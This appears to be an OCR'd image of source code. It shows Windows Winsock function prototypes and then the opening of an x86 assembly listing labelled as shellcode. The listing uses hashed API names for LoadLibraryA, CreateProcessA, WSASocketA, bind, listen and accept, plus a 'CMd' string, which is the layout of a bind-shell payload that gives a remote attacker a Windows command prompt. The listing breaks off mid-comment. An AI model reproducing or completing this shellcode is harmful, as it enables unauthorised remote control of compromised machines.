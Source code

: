```cpp
  LPWSAPROTOCOL_INFO lpProtocolInfo,
  GROUP g,
  DWORD dwFlags
);


int bind(
  SOCKET s,                          
  const struct sockaddr FAR *name,   
  int namelen                        
);

struct sockaddr {
  u_short    sa_family;
  char       sa_data[14];
};   


struct sockaddr_in {
        short   sin_family;
        u_short sin_port;
        struct  in_addr sin_addr;
        char    sin_zero[8];
};

int listen(
  SOCKET s,    
  int backlog  
);

SOCKET accept(
  SOCKET s,
  struct sockaddr FAR *addr,
  int FAR *addrlen
);
```


```asm
    nop
    nop
    nop
  ; start of shellcode 
  ; assume: eax points here 
  ; function hashes (executable as nop-equivalent) 
    _emit 0x59	; LoadLibraryA ; pop ecx 
    _emit 0x81 	; CreateProcessA ; or ecx, 0x203062d3 
    _emit 0xc9 	; ExitProcess 
    _emit 0xd3 	; WSAStartup 
    _emit 0x62 	; WSASocketA 
    _emit 0x30 	; bind 
    _emit 0x20 	; listen 
    _emit 0x41 	; accept ; inc ecx 

  ; "CMd" 
    _emit 0x43 	; inc ebx 
    _emit 0x4d 	; dec ebp 
    _emit 0x64 	; FS: 
  
  ; start of proper code 
    cdq 					; set edx = 0 (eax points to stack so is less than 0x80000000) 
    xchg eax, esi 			; esi = addr of first function hash 
    lea edi, [esi - 0x18] 	; edi = addr to start writing function 
                ; addresses (last addr will be written just 
```